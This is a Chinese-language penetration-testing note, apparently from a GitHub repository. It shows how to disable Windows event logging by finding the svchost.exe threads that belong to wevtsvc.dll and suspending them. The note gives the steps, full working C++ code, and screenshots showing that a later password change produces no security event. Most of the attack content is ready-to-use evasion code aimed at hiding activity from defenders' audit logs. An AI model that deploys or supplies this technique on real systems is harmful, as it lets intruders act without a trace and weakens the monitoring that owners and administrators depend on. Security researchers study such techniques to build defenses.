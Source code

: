 	Windows事件日志由svchost.exe托管处理。EventLog
	如果我们列出svchost进程，则会看到许多这样的进程：
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/815.png)

	从上面的屏幕截图中，尚不清楚哪个进程真正托管了该服务，但是如果我们继续在Process Hacker中逐个检查进程，我们最终将找到托管该服务的进程，当前为pid 2196：EventLog svchost.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/816.png)

	通过以下命令获得eventlog的进程ID
	Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/817.png)

	如果我们查看的svchost.exe线程，则会看到
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/818.png)

	下面显示的是，确实，暂停足以使EventLog服务无法注册任何新事件：
	没有挂起时修改个密码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/819.png)

	会注册新的事件
	挂起时则没有新的事件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/820.png)

	代码实现
	下面是在较高级别下工作的技术代码：
	1.使用OpenSCManagerA命令打开服务控制管理器的句柄 
	2.使用OpenServiceA命令打开EventLog服务的句柄 
	3.使用QueryServiceStatusEx命令检索svchost.exe（托管EventLog）进程ID
	4.打开svchost.exe进程的句柄（从第3步开始）
	5.获取由svchost.exe加载的已加载模块的列表 EnumProcessModules
	6.循环浏览在步骤5中检索到的已加载模块列表，使用查找其名称并找到模块的基地址-这是包含服务内部工作的模块
	7.获取模块信息。它将返回带有模块的起始地址-我们稍后将在确定服务线程是否落入wevtsvc.dll模块的内存空间时需要这些详细信息wevtsvc.dll   GetModuleInformation EventLog
	8.枚举svchost.exe内的所有线程。Thread32FirstThread32Next
	9.对于步骤8中的每个线程，使用NtQueryInformationThread命令检索线程的起始地址 
	10.对于步骤8中的每个线程，检查线程的起始地址是否属于svchost.exe内部的内存空间。wevtsvc.dll
	11.如果线程的起始地址在内存空间内，则这是我们的目标线程，我们将其挂起wevtsvc.dll SuspendThread
	12.EventLog 服务现已禁用
```c
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>
#pragma comment(lib, "DbgHelp")
using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
IN HANDLE ThreadHandle,
IN THREADINFOCLASS ThreadInformationClass,
OUT PVOID ThreadInformation,
IN ULONG ThreadInformationLength,
OUT PULONG ReturnLength
);
int main()
{
HANDLE serviceProcessHandle;
HANDLE snapshotHandle;
HANDLE threadHandle;
HMODULE modules[256] = {};
SIZE_T modulesSize = sizeof(modules);
DWORD modulesSizeNeeded = 0;
DWORD moduleNameSize = 0;
SIZE_T modulesCount = 0;
WCHAR remoteModuleName[128] = {};
HMODULE serviceModule = NULL;
MODULEINFO serviceModuleInfo = {};
DWORD_PTR threadStartAddress = 0;
DWORD bytesNeeded = 0;
myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));
THREADENTRY32 threadEntry;
threadEntry.dwSize = sizeof(THREADENTRY32);
SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS serviceStatusProcess = {};
# Get PID of svchost.exe that hosts EventLog service
QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
DWORD servicePID = serviceStatusProcess.dwProcessId;
# Open handle to the svchost.exe
serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
# Get a list of modules loaded by svchost.exe
EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
modulesCount = modulesSizeNeeded / sizeof(HMODULE);
for (size_t i = 0; i < modulesCount; i++)
{
serviceModule = modules[i];
# Get loaded module's name
GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));
if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
{
printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
}
}
# Enumerate threads
Thread32First(snapshotHandle, &threadEntry);
while (Thread32Next(snapshotHandle, &threadEntry))
{
if (threadEntry.th32OwnerProcessID == servicePID)
{
threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
# Check if thread's start address is inside wevtsvc.dll memory range
if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
{
printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);
# Suspend EventLog service thread
SuspendThread(threadHandle);
Sleep(2000);
}
}
}
return 0;
}

```
	以下演示
	net user ola ola执行并更改用户的ola密码，并在6:55:30 PM记录事件4724
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/821.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/822.png)

	执行文件，svchost.exe中暂停了4个EventLog线程
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/823.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/824.png)

	再次执行修改密码命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/825.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/826.png)

	新的事件没有写入，只有挂起前的事件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/827.png)
